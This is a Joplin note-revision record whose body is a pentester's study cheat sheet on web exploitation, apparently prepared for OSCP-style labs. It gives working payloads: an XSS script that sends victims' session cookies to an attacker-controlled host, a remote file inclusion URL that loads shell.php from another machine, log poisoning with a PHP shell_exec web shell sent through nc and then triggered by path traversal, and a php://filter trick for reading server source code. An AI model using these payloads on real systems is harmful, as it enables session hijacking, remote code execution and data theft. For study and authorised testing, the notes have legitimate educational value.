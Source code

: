 id: a456ac625613487c938b4797b55063dc
parent_id: 
item_type: 1
item_id: 78f0d945ef914f6c8342ed9db47e13fa
item_updated_time: 1643161023660
title_diff: "[{\"diffs\":[[1,\"Website Exploit\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":15}]"
body_diff: "[{\"diffs\":[[1,\"# XSS\\\n\\\n## Reverse Shell\\\n\\\n## Using Beef\\\n\\\nBeef\\\n\\\n\\\\*\\\\*Note: \\\\*\\\\*XSS only works if an authenticated user accesses the webpage\\\n\\\n# Steal Cookie Session\\\n\\\nCookies have two optional flags of interest to pentesters: Secure and HttpOnly\\\n\\\n<ins>**Secure flag**</ins> \\\\-\\\\-\\\\- instructs browser to only send the cookie over encrypted connections. This protects cookie from being sent in cleartext and captured over the network\\\n\\\n- Make sure the website is not using HTTPS\\\n\\\n<ins>**HttpOnly**</ins> \\\\-\\\\-\\\\- instructs browser to deny JS access to the cookie. If the flag is not set, we can use an XSS payload to steal the cookie.\\\n\\\n- If HTTPOnly is set, we can try to use cookie jar overflow\\\n- ![b7757caf5e1a534ff942c14219c18e0f.png](:/d74f9f4349a046bbb52b0e421c07954d)\\\n- In Firefox console, the cookie did not overflow and got removed; instead we manually deleted the cookie and allowed the browser to overwrite. We can also manually edit the cookie; however, this will not work unless we programme it to\\\n- We can do a for-loop, then\\\n\\\nFirst, use an XSS script if HttpOnly is not set\\\n\\\n> &lt;script&gt;new Image().src=’[http://10.11.0.4/hijacker.php?cookie=’+document.cookie;](http://10.11.0.4/hijacker.php?cookie=%E2%80%99+document.cookie;)&lt;/script&gt;\\\n\\\nWhen we have our web server open, we will see the user accessing, and the Session ID generated\\\n\\\nUse Cookie-Editor to access the webpage\\\n\\\n# File Inclusion Vulnerabilities\\\n\\\nCheck values of register\\\\_globals, allow\\\\_url wrappers.\\\n\\\n- In [version](https://www.plus2net.com/php_tutorial/php-version.php) PHP 5 and above by default, *register_global* is kept OFF.\\\n- If allow\\\\_url\\\\_include or allow\\\\_url\\\\_fopen is enabled, proceed to do RFI\\\n\\\nIf have access to source code, check for **include** and code that are poorly design e.g.\\\n\\\n- $file = $_GET\\\\['page'\\\\];\\\n\\\nMake sure to look out for parameters that are linked to files (signs of file inclusion)\\\n\\\n![28d96990055803bbc316ed7557f0ea00.png](:/a43d4d1f5d3b4e1a9802a632d5ca66e3)\\\n\\\n> 192.168.0.2/DVWA/vulnerabilities/fi/?page=http://192.168.0.5:8000/shell.php #For RFI\\\n\\\nSometimes, the LFI is in the Request sent. Example shown is from OSCP machine we did\\\n\\\n<img src=\\\":/9c71d821603843889d4313b4d820bcb2\\\" alt=\\\"1e1c6c65502bd520d973599be7b3ac72.png\\\" width=\\\"851\\\" height=\\\"514\\\" class=\\\"jop-noMdConv\\\">\\\n\\\nSometimes during a Local File Inclusion, the web server appends ‘.php’ to the included file. For example, including ‘/etc/passwd’ gets rendered as ‘/etc/passwd.php’. This occurs when the include function uses a parameter like *?page* and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (%00) would cause the interpreter to stop reading, which would allow the attacker to include their intended page.\\\n\\\n# Log File Poisoning\\\n\\\nLogs to look into trying - https://www.thegeekstuff.com/2011/08/linux-var-log-files/\\\n\\\nFTP - /var/log/**vsftp.d**\\\n\\\nSSH, login info - /var/log/**auth.log**\\\n\\\nHTTP - On windows if xampp, C:\\\\\\\\xampp\\\\\\\\apache\\\\\\\\logs\\\\\\\\access.log; On Linux, /var/log/apache2/access.log\\\n\\\n> nc 192.168.1.102 80\\\n> \\\n> &lt;?php echo 'pre&gt;' . shell\\\\_exec($\\\\_GET\\\\['cmd'\\\\]) . '&lt;/pre&gt;';?>\\\n> \\\n> \\\\# To access log\\\n\\\nAfter writing to the log file, run the file\\\n\\\n> http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id\\\n\\\n# Bypassing php-execution\\\n\\\nSo if you have an LFI you can easily read `.txt`-files but not `.php` files. That is because they get executed by the webserver, since their file-ending says that it contains code. This can be bypassed by using a build-in php-filter.\\\n\\\n> http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index\\\n\\\nHere you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:\\\n\\\n> base64 -d savefile.php\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":3825}]"
metadata_diff: {"new":{"id":"78f0d945ef914f6c8342ed9db47e13fa","parent_id":"8e7bd5349cf3494986eccd0619b576c9","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1643160994571,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-26T01:44:55.950Z
created_time: 2022-01-26T01:44:55.950Z
type_: 13